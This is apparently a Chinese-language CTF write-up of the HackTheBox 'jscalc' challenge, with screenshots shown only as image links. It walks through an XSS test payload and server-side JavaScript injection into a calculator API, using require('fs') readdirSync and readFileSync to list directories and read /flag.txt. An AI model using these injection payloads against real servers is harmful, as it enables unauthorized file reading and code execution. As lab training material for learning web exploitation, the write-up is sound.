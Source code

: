 ```yaml
---
title: 'HackTheBox: jscalc'
disqus: hackmd
---
```


HackTheBox: jscalc
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/jscalc

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:46780/

![image](https://hackmd.io/_uploads/rkVED31W0.png)

(Calculate)\
![image](https://hackmd.io/_uploads/rk8YO6kW0.png)

![image](https://hackmd.io/_uploads/SJgyca1-0.png)


## Solution

### 1.Code Review
● main.js
```javascript=
let formula = document.getElementById('formula');
let form    = document.getElementById('form');
let output  = document.getElementById('output');

const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};

form.addEventListener('submit', e => {
	e.preventDefault();

	fetch('/api/calculate', {
		method: 'POST',
		body: JSON.stringify({
			formula: formula.value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(resp => {
        result = resp.message.toString();

		if (result.includes('wrong')) {
            flash(result, 'danger');

            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2000);

            return;
        }
        
        flash(result, 'success');

        setTimeout(() => {
            document.getElementById('closeAlert').click();
        }, 2000);
            
        output.value = result;
        
    })
});

```
> "formula":"100*10-3+340"\
> 用JSON格式 POST 到 fetch /api/calculate\
> Content-Type: application/json

● /routes/index.js
```javascript=
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})

module.exports = router;

```
> GET / 顯示index.html\
> POST /api/calculate，如果存在formula，則使用Calculator.calculate運算

### 2.Attempt
#### 2.1 XSS
> [!NOTE]
> main.js 沒有對輸入的payload進行過濾，嘗試XSS

```payload
55688+'<img src=chw onerror="alert(55688)">'
```

![image](https://hackmd.io/_uploads/rkjssa1Z0.png)

#### 2.2 JSON Object
package.json
```json=
{
	"name": "jscalc",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"nodeVersion": "v8.12.0",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"body-parser": "^1.19.0",
		"express": "^4.17.1"
	}
}



```
> [!NOTE]
> 從package.json可以得知使用Node.js\
> 嘗試在JSON格式中注入Node.js指令 

```payload
process.cwd()
```
![image](https://hackmd.io/_uploads/SyNXiCJZA.png)
> [!IMPORTANT]
> ● process.cwd() 是 Node.js 中的一個函式，用於獲取當前工作目錄（Current Working Directory）的路徑。所謂當前工作目錄是指 Node.js 進程當前正在運行的目錄。

> 成功得到Server回應

### 3. Node.js in JSON
#### 3.1 Node.js require('fs')
```payload
require('fs')
```
![image](https://hackmd.io/_uploads/SyyZLCkbA.png)\
> [!IMPORTANT]
> ● require('fs') 是 Node.js 中用於引入文件系統模組的標準語法。文件系統模組（fs）允許 Node.js 應用程式直接與文件系統進行交互，包括讀取檔案、寫入檔案、刪除檔案等操作。

#### 3.2 Browse /app
前面透過process.cwd()當前目錄在/app，利用readdirSync讀取當前目錄下內容
```payload
require('fs').readdirSync('/app').toString()
```
![image](https://hackmd.io/_uploads/SkHP2Cy-R.png)

#### 3.3 Find Flag.txt
```payload
require('fs').readdirSync('../').toString()
```
![image](https://hackmd.io/_uploads/BJlT2R1ZR.png)

### 4. Get FLAG
```payload
require('fs').readFileSync("/flag.txt").toString()
```
> [!IMPORTANT]
> ● require('fs').readFileSync() 是 Node.js 中用於同步讀取檔案的函式。它的作用是以同步的方式從檔案系統中讀取檔案的內容，並將其返回為字串或二進位緩衝區。

![image](https://hackmd.io/_uploads/S1VoR0k-0.png)

> **FLAG: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**

###### tags: `Web` `CTF` `Node.js`


